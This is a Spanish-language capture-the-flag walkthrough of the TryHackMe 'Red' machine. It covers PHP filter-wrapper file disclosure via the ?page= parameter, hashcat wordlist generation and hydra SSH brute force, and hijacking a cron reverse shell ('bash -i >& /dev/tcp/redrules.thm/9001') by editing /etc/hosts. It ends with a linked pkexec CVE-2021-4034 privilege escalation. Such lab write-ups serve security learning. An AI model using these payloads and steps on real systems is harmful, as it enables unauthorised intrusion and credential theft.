# Red

En la maquina `red` se enfrenta el blue y el red team, una maquina que al acceder a la maquina como el usuario `blue` el otro te sacara y cambiara la contraseña. También tendrás que enumerar los procesos para poder escalar privilegios y hacer uso de la vulnerabilidad del `pkexec` cuando tiene el privilegio `SUID`


* Link [Red](https://tryhackme.com/room/redisl33t)
* Created by  [tryhackme](https://tryhackme.com/p/tryhackme) and  [hadrian3689](https://tryhackme.com/p/hadrian3689)

## Walkthrough

***

### Enumeración

Empezamos a enumerar los puertos abiertos

```php
❯ nmap -p- --open --min-rate 1000 -vvv 10.10.1.156 -Pn -n  -oG allportsScan
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Una vez conociendo los puertos abiertos, realizaremos la enumeración de cada uno de los puertos con la herramienta de `nmap`.

```php
❯ nmap -p22,80 -sV -sC -vv -Pn 10.10.1.156 -oN servicesScan

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:74:1c:e0:f7:86:4d:69:46:f6:5b:4d:be:c3:9f:76 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC1MTQvnXh8VLRlrK8tXP9JEHtHpU13E7cBXa1XFM/TZrXXpffMfJneLQvTtSQcXRUSvq3Z3fHLk4xhM1BEDl+XhlRdt+bHIP4O5Myk8qLX9E1FFpcy3NrEHJhxCCY/SdqrK2ZXyoeld1Ww+uHpP5UBPUQQZNypxYWDNB5K0tbDRU+Hw+p3H3BecZwue1J2bITy6+Y9MdgJKKaVBQXHCpLTOv3A7uznCK6gLEnqHvGoejKgFXsWk8i5LJxJqsHtQ4b+AaLS9QAy3v9EbhSyxAp7Zgcz0t7GFRgc4A5LBFZL0lUc3s++AXVG0hJ9cdVTBl282N1/hF8PG4T6JjhOVX955sEBDER4T6FcCPehqzCrX0cEeKX6y6hZSKnT4ps9kaazx9O4slrraF83O9iooBTtvZ7iGwZKiCwYFOofaIMv+IPuAJJuRT0156NAl6/iSHyUM3vD3AHU8k7OISBkndyAlvYcN/ONGWn4+K/XKxkoXOCW1xk5+0sxdLfMYLk2Vt8=
|   256 fb:84:73:da:6c:fe:b9:19:5a:6c:65:4d:d1:72:3b:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDooZFwx0zdNTNOdTPWqi+z2978Kmd6db0XpL5WDGB9BwKvTYTpweK/dt9UvcprM5zMllXuSs67lPNS53h5jlIE=
|   256 5e:37:75:fc:b3:64:e2:d8:d6:bc:9a:e6:7e:60:4d:3c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDyWZoVknPK7ItXpqVlgsise5Vaz2N5hstWzoIZfoVDt
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-title: Atlanta - Free business bootstrap template
|_Requested resource was /index.php?page=home.html
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Los puertos abiertos que se tienen son `22,80` y tenemos los servicios `ssh` y `http`

#### Puerto 80

Enumerando el puerto `80` nos encontramos con un sitio web



Al navegar en el sitio web encontraremos con el parámetro `?page=` que usaremos para leer archivos de la maquina victima. La forma que podemos leer es con `wrappers` haciendo uso de base 64

```java
index.php?page=php://filter/convert.base64-encode/resource=index.php HTTP/1.1
```

### Explotación

Haremos uso de `burpSuite` realizaremos las peticiones. Vemos que tenemos respuesta en base64  Leemos el `index.php` en el cual tenemos el siguiente código

```php
<?php 
function sanitize_input($param) {
   $param1 = str_replace("../","",$param);
   $param2 = str_replace("./","",$param1);
   return $param2;
}
$page = $_GET['page'];
if (isset($page) && preg_match("/^[a-z]/", $page)) {
   $page = sanitize_input($page);
   readfile($page);
} else {
   header('Location: /index.php?page=home.html');
}
?>

```

1. **Función `sanitize_input`:**
   * La función `sanitize_input` toma un parámetro `$param`.
   * Usa `str_replace` para eliminar las secuencias "../" y "./" del parámetro, lo que ayuda a prevenir ataques de navegación a través de directorios (`../`) y a asegurar que la ruta sea relativa (`./`).
   * Devuelve el parámetro sanitizado.
2. **Obtención del parámetro `page`:**
   * El código intenta obtener el valor del parámetro `page` de la superglobal `$_GET`.
   * Se verifica si la variable `$page` está definida y si su valor coincide con el patrón "/^\[a-z]/". Este patrón permite solo letras minúsculas al comienzo del valor del parámetro.
3. **Sanitización del parámetro `page`:**
   * Si el valor del parámetro `page` está definido y pasa la verificación de patrón, se llama a la función `sanitize_input` para limpiar el valor.
4. **Lectura y salida del archivo:**
   * Se utiliza la función `readfile` para leer y enviar el contenido del archivo especificado por el parámetro `page`.
5. **Manejo de condiciones no cumplidas:**
   * Si no se cumple la condición de la verificación de patrón o si el parámetro `page` no está definido, el código redirige al usuario a una página predeterminada (`home.html`).

* Aunque se intenta sanear el parámetro `page`, el enfoque utilizado no es completamente seguro contra todos los posibles vectores de ataque. Para una mayor seguridad, se recomienda el uso de funciones específicas como `realpath` para normalizar y asegurar las rutas de archivos.
* La verificación del patrón usando `preg_match` puede ser insuficiente dependiendo de los requisitos específicos de seguridad. Podría ser más seguro especificar una lista blanca de páginas permitidas en lugar de solo verificar el formato del nombre del archivo.

Estuve enumerando los archivos del sistema y encontré algo interesante en `/home/blue/.bash_history` en el siguiente código:

```php
/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.bash_history 

echo "Red rules"
cd
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
cat passlist.txt
rm passlist.txt
sudo apt-get remove hashcat -y
```

En el anterior archivo vemos un archivo llamado `.reminder` que hace uso `hashcat` para generar una lista de palabras.

Ahora intentaremos leer el archivo `.reminder`

```php
GET /index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.reminder HTTP/1.1
Host: 10.10.1.156
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

Obtenemos el contenido del archivo el cual lo tenemos en base64

```php
❯ echo "c3VwM3JfcEBzJHcwcmQhCg=="| base64 -d
sup3r_p@s$w0rd!
```

Decodificando nos encontramos con el contenido del archivo que es `sup3r_p@s$w0rd!`

Vamos a replicar el los comandos que encontramos en `bash_history` del usuario `blue`

```php
❯ hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
```

Generamos una lista de palabras, las cuales usaremos para realizar fuerza bruta contra el servicio `ssh`



Como no sabemos el usuario para iniciar sesion por ssh, haremos uso de un archivo `user.txt` donde ingresaremos los nombres de usuarios que encontramos al enumerar el `/etc/pass` que en este caso son `blue` y `red`.

#### Fuerza Bruta



### Escalada de privilegios

#### Usuario - blue

Nos conectamos haciendo uso de las credenciales que encontró `hydra`

```
❯ ssh blue@10.10.1.156 -T
```

Tendremos que hacer uso el `-T` para no perder la sesión ya que tenemos una serie de mensajes y al final nos cerrara la sesión.

Enumerando el sistema encontraremos un proceso que se ejecuta cada minuto, . Esto lo enumere con `pspy64`



```php
bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 & 
```

Vamos a explicar mas lo que hace el comando:

* `bash -c`: Ejecuta el comando que sigue después de `-c` en una instancia de Bash.
* `nohup`: Es un comando que se utiliza para ejecutar otro comando de forma que siga ejecutándose incluso después de que el terminal que lo inició haya sido cerrado. En este contexto, se utiliza para asegurarse de que la conexión persista incluso si se cierra la terminal.
* `bash -i`: Lanza una instancia interactiva de Bash, lo que significa que el shell se ejecutará de forma interactiva permitiendo la entrada y salida.
* `>& /dev/tcp/redrules.thm/9001`: Esto redirige tanto la salida estándar como la salida de error al socket TCP especificado. En este caso, redirige la salida a `redrules.thm` en el puerto `9001`.
* `0>&1`: Redirige la entrada estándar al mismo lugar que la salida estándar, lo que asegura que la entrada y salida estén conectadas.
* `&`: Coloca el proceso en segundo plano, permitiendo que el terminal esté disponible para otros comandos.

Observemos un poco mas `redrules.thm` que esta en `/etc/hosts`. Vemos que este dominio redirige a una `ip` que al enumerar vemos que no existe



Vemos que tenemos permisos de escritura sobre el archivo `/etc/hosts`, entonces lo que realizaremos sera ingresar nuestra IP atacante con el dominino



Ingresamos nuestra IP atacante con el dominio al `/etc/hosts`

```php
blue@red:/tmp$ echo "10.9.115.196 redrules.thm" >>/etc/hosts
```

#### Usuario - red

Iniciamos `ncat` en el puerto `9001` porque es por ahí que envía una Shell la maquina victima



Esperemos un minuto y debemos de tener una shell.

Ahora tenemos podemos leer y ver el contenido del directorio `.git` y vemos que contiene un binario de `pkexec` que tiene permisos de SUID



#### Usuario - root

Para explotar este binario haremos uso de la vulnerabilidad [CVE-2021-4034](https://github.com/joeammond/CVE-2021-4034/tree/main). Antes de hacer uso el exploit cambiaremos la ruta del binario



Ahora para subir el exploit en Python podemos hacer uso el método que prefiramos mas



¡Vamos! Happy Hacking
